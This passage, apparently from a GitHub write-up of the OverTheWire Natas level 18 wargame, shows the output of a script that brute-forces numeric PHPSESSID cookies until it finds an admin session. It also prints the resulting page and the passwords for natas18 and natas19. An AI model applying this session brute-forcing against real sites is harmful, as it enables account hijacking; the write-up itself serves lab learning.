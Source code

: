 - Here, I wrote a script that will brute force the cookie, cookie value is just a integer.

  ```
  $ python3 cookie-brute.py
  [SNIP!]
  [*] Tried session ID 100 (100)
  [*] Tried session ID 101 (101)
  [*] Tried session ID 102 (102)
  [*] Tried session ID 103 (103)
  [*] Tried session ID 104 (104)
  [*] Tried session ID 105 (105)
  [*] Tried session ID 106 (106)
  [*] Tried session ID 107 (107)
  [*] Tried session ID 108 (108)
  [*] Tried session ID 109 (109)
  [*] Tried session ID 110 (110)
  [*] Tried session ID 111 (111)
  [*] Tried session ID 112 (112)
  [*] Tried session ID 113 (113)
  [*] Tried session ID 114 (114)
  [*] Tried session ID 115 (115)
  [*] Tried session ID 116 (116)
  [*] Tried session ID 117 (117)
  [*] Tried session ID 118 (118)
  [+] Found admin session cookie: 119 (PHPSESSID: 119)
  <html>
  <head>
  <!-- This stuff in the header has nothing to do with the level -->
  <link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
  <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
  <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
  <script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
  <script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
  <script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
  <script>var wechallinfo = { "level": "natas18", "pass": "6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ" };</script></head>
  <body>
  <h1>natas18</h1>
  <div id="content">
  You are an admin. The credentials for the next level are:<br><pre>Username: natas19
  Password: tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr</pre><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
  </div>
  </body>
  </html>
  ```

---

## 🏁 Password for the next level

`Password for natas19 is: tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr`

---

Back to [Main Repo](https://github.com/mauzware/OverTheWire-Natas)
